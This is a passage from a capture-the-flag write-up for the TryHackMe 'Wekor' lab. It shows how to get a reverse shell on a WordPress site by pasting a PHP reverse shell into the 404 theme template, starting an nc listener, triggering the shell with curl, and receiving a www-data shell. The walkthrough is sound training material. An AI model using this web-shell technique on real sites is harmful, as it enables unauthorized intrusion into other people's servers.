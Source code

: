 **User `wp_yura` is an administrator account!!**

**To get a reverse shell, we can:**

- Go to "Theme Editor" in "Appearance" -> choose "404 Template" -> Modify the file content to a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) -> click "Update":

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Wekor/images/a19.png)

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# nc -lnvp 443       
listening on [any] 443 ...
```

- Trigger the PHP reverse shell:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# curl http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/404.php
```

```
[...]
connect to [10.18.61.134] from (UNKNOWN) [10.10.10.35] 47698
Linux osboxes 4.15.0-132-generic #136~16.04.1-Ubuntu SMP Tue Jan 12 18:18:45 UTC 2021 i686 i686 i686 GNU/Linux
 07:35:02 up 14 min,  0 users,  load average: 0.99, 1.19, 0.99
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1129): Inappropriate ioctl for device
bash: no job control in this shell
www-data@osboxes:/$ ip a
ip a
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:94:36:70:83:dd brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.35/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::94:36ff:fe70:83dd/64 scope link 
       valid_lft forever preferred_lft forever
```
